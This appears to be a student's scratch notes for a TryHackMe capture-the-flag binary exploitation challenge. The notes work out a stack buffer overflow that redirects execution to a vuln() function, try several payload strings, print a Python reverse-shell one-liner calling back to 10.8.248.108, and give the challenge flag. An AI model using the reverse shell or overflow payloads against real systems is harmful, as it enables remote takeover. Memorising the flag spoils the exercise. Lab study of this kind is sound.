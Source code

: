 ## Tristan Gomez

Vuln() -> 0x00000000 00400686

Main() -> 0x004006c3
 * has scanf to fill 32char buffer?
 * Smash stack to overwrite 


-----------
ret_addr     RBP + 8
-----------
Saved RBP    RBP
-----------
local_28 [32] RBP - 8

32 (a) + 8 + 8(hex addr to vuln)

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbb 86064000 00000000x0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb8606400000000000x0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbb0x0000000000400686

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x000000400686
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x000000e5894855
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x0000005584985e
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa0x00400686

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x86\x06@\x00\x00\x00\x00\x00
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x86\x06@\x00\x00\x00\x00\x00

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.248.108",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
THM{PWN_1S_V3RY_E4SY}
